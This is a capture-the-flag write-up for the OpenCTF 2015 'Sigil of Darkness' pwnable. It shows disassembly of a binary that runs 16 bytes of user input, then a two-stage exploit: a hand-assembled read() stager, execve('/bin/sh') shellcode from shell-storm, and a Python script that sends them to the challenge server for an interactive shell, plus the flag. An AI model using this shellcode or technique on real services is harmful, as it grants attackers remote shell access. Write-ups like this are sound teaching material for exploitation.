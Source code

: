```yaml
---
title: "OpenCTF 2015 - Sigil of Darkness (binary,exploitation,pwnable 200) Writeup"
slug: "openctf-2015-sigil-darkness-binaryexploitationpwnable-200-writeup"
date: "2015-08-12 09:21:26.362277"
author_name: "meta"
author_email: "0xmeta@gmail.com"
draft: false
toc: false
images:
---
```


Hint:

> Sigil of Darkness 200 --- simplicity is beauty
> 
> Service: 10.0.66.72:6611 Binary: 172.16.18.20/sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d

Sigil of darkness was a 64-bit ELF executable exploit challenge. Finding the memory corruption was trivial enough but the exploit itself was fun and interesting because the binary only read 16 bytes from stdin, which is a relatively small payload. For reference, the smaller execve('/bin/sh') shellcodes from shell-storm are about 33 bytes.

{language=python}
~~~~~~~~
$ file sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d
sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=7cdb94f1b78249d4b1148f6450c207dc469c68e0, stripped

$ ctf-payload -a100 | ltrace -if ./sigil_of_darkness
[pid 4783] [0x4004f9] __libc_start_main(0x4005bd, 1, 0x7fffa9d02a68, 0x400640 <unfinished ...>
[pid 4783] [0x4005f1] mmap(0, 255, 7, 34)                                                    = 0x7f34b7c14000
[pid 4783] [0x40060b] memset(0x7f34b7c14000, '\0', 255)                                      = 0x7f34b7c14000
[pid 4783] [0x400621] read(0, "AAAAAAAAAAAAAAAA", 16)                                        = 16
[pid 4783] [0x7f34b7c14000] --- SIGSEGV (Segmentation fault) ---
[pid 4783] [0xffffffffffffffff] +++ killed by SIGSEGV +++
~~~~~~~~

In the trace you can see the 16-byte read is followed by SIGSEGV, so we suspect this is a typical stack overflow. However, the fact that RIP is at  0x7f34b7c14000 is suspicious because it's the return value from mmap (the address of newly mapped memory region, which is not on the stack). So we take a look at the disassembly to see what's going on.

{language=python}
~~~~~~~~
$ objdump -d -j .text -M intel sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d

4005d8:    b9 22 00 00 00         mov    ecx,0x22
4005dd:    ba 07 00 00 00         mov    edx,0x7
4005e2:    be ff 00 00 00         mov    esi,0xff
4005e7:    bf 00 00 00 00         mov    edi,0x0
4005ec:    e8 8f fe ff ff         call   400480 <mmap@plt>
4005f1:    48 89 45 f8            mov    QWORD PTR [rbp-0x8],rax
4005f5:    48 8b 45 f8            mov    rax,QWORD PTR [rbp-0x8]
4005f9:    ba ff 00 00 00         mov    edx,0xff
4005fe:    be 00 00 00 00         mov    esi,0x0
400603:    48 89 c7               mov    rdi,rax
400606:    e8 85 fe ff ff         call   400490 <memset@plt>
40060b:    48 8b 45 f8            mov    rax,QWORD PTR [rbp-0x8]
40060f:    ba 10 00 00 00         mov    edx,0x10
400614:    48 89 c6               mov    rsi,rax
400617:    bf 00 00 00 00         mov    edi,0x0
40061c:    e8 7f fe ff ff         call   4004a0 <read@plt>
400621:    48 8b 55 f8            mov    rdx,QWORD PTR [rbp-0x8]
400625:    b8 00 00 00 00         mov    eax,0x0
40062a:    ff d2                  call   rdx
40062c:    b8 00 00 00 00         mov    eax,0x0
400631:    c9                     leave
400632:    c3                     ret
~~~~~~~~

The relevant part of the disassembly is the call to read and the 3 instructions that follow.

{language=python}
~~~~~~~~
40060b:    48 8b 45 f8            mov    rax,QWORD PTR [rbp-0x8]
40060f:    ba 10 00 00 00         mov    edx,0x10
400614:    48 89 c6               mov    rsi,rax
400617:    bf 00 00 00 00         mov    edi,0x0
40061c:    e8 7f fe ff ff         call   4004a0 <read@plt>
400621:    48 8b 55 f8            mov    rdx,QWORD PTR [rbp-0x8]
400625:    b8 00 00 00 00         mov    eax,0x0
40062a:    ff d2                  call   rdx
~~~~~~~~

I used gdb to verify that $rax points to the address which contains the user input. Remember that this is a 64-bit binary, so the calling convention is that arguments are put into the registers (not on the stack like 32-bit). The calling convention for 64-bit binaries is that arguments are passed in the registers RDI, RSI, RDX, RCX, R8, and R9 respectively. Interpreting the disassembly as pseudo-code we have:

{language=python}
~~~~~~~~
$rax = $user_input
read(0, $rax, 0x10)
$rdx = $user_input
call $rdx
~~~~~~~~

In other words, the user input is read into a buffer and then called! It's not smashing the stack, it simply executes whatever shellcode you provide. However, there is a catch and this is where things get fun - it only reads 16 bytes. ;) Because 16 bytes is not enough room for typical shellcode, the payload will have to be custom.

My solution to this pwnable was to re-use the read() call to read in a larger buffer (the second stage of our exploit). Because the offsets in the binary are static all we need to do is set RDI, RSI, and RDX appropriately and jump back to 0x40061c. This will call read() again, which will read in our larger buffer, and then call it (again), which is awesome.

So we want `read(0, &buff, 0x100)` to read 0x100 bytes instead of 16.

In order to save space in our payload, I decided to jump back to 0x400614 so that main() would setup EDI for me. This means we only have to setup RSI and EDX. Note that RSI is set from RAX.

The following assembly is what I came up with to set the registers and jump back to read. There are a handful of ways to jump or call into another part of code, but I chose "push address; ret;" because it works well and requires fewer opcodes than some of the alternatives, but other approaches may also have worked. Also note that because local variables are referenced from EBP, instead of ESP, I was assuming that that I could get the address of the user input (which changes at runtime) using the same reference from the disassembly above ($rbp-0x8).

Using your assembler of choice (or [https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm)) we get the following first-stage payload:

{language=asm}
~~~~~~~~
48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
ba 00 01 00 00          mov    edx,0x100
68 14 06 40 00          push   0x400614
c3                      ret
~~~~~~~~

Which makes our fist stage shellcode exactly 15-bytes so we'll need to pad it with one byte so the second stage is correctly aligned. Here is the final solution:

{language=python}
~~~~~~~~
 1 if __name__=='__main__':
 2 
 3     import sys
 4     from libctf import *
 5 
 6     # 64 bit execve(/bin/sh) shellcode
 7     # http://shell-storm.org/shellcode/files/shellcode-806.php
 8     shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
 9 
10     # the first stage of the payload
11     setup = "\x48\x8b\x45\xf8\xba\x00\xff\x00\x00\x68\x14\x06\x40\x00\xC3"
12 
13     # pad to len 16 bytes
14     setup += "\x90"
15 
16     # the final payload
17     payload = setup + shellcode
18 
19     # and pwn the server
20     s = Sock("10.0.66.72",6611)
21     s.send(payload)
22     s.interact()
~~~~~~~~

Flag: So_that_might_have_given10s_moreFFRT
